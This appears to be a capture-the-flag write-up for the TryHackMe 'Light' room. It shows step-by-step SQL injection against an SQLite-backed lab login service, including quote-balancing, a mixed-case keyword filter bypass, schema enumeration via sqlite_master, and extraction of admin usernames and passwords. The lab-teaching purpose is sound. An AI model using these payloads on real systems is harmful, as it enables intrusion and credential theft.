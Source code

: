 # Light

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. SQLi happens when an application directly includes unsanitized user input in SQL queries — allowing attackers to manipulate the query logic and extract sensitive data from the backend.  


*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_1](src/Light_1.png)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password — but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *Error: unrecognized token: "''' LIMIT 30"*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get a password as a response — even though it's useless:

> *tF8tj2o94WE4LKC*

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *Ahh there is a word in there I don't like :(*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works — we get:

> *3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

![Light_2](src/Light_2.png)

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

![Light_3](src/Light_3.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

![Light_4](src/Light_4.png)

Mission complete!

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
